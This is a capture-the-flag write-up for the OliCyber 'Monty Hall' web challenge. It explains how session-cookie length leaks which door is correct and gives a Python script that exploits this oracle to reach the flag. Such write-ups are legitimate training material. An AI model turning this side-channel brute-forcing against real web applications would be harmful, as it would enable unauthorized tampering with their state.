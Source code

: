 # OliCyber.IT - Regional CTF

## [web] Monty Hall (16 solves)

Pokémon Platinum is the best one: [Turnback Cave](https://www.youtube.com/watch?v=rf8H4JTdy88)

Website: [http://monty-hall.challs.external.open.ecsc2024.it](http://monty-hall.challs.external.open.ecsc2024.it)

Author: Aleandro Prudenzano <@drw0if>

## Solution

The challenge presents 3 doors to the user, who can choose one of them by clicking on it. Analyzing the source code or the network tab in the browser, it is possible to notice that clicking on any of the 3 doors will trigger a form submission, with a different value for the field `choice`, depending on the chosen door. If we play with the game, clicking on random doors, we can notice that with each submission, the server provides a new cookie, sometimes longer and sometimes shorter.

By trying all the three doors with a fixed cookie as the starting point, we can observe that two of the choices produce a new cookie long as the old one, while one choice produces a longer new cookie. By looking at the source code, we notice that the state of the game is stored inside the cookie itself, and whenever the player clicks on the correct door, the door itself is added to the state (in a list of visited doors), generating a longer cookie.

We can therefore use the cookie length as an oracle to understand which door is the correct one at every crossroads, by keeping a fixed cookie and trying all the three choices, moving forward only when we obtain a longer new cookie.

## Exploit

```python
#!/usr/bin/env python3

import logging
import os
import requests
import re

# For HTTP connection
URL = os.environ.get("URL", "http://monty-hall.challs.external.open.ecsc2024.it")
if URL.endswith("/"):
    URL = URL[:-1]


def make_request(session, choice):
    r = requests.post(URL, cookies={"session": session}, data={"choice": choice}, allow_redirects=False)
    return r.text, r.cookies['session']


def solve():
    # Get a token for the first level
    _, current_session = make_request("asd", 1)

    # Loop maximum 12 times
    for _ in range(12):
        # Try all three doors
        new_sessions = []
        for i in range(1, 4):
            content, new_session = make_request(current_session, i)

            # If flag found, print it and quit
            if "flag{" in content:
                res = re.findall(r"flag\{[a-zA-Z0-9_]*}", content)[0]
                print(res)
                return

            new_sessions.append(new_session)

        # Choose the longest session
        current_session = max(new_sessions, key=lambda x: len(x))


if __name__ == '__main__':
    solve()
```
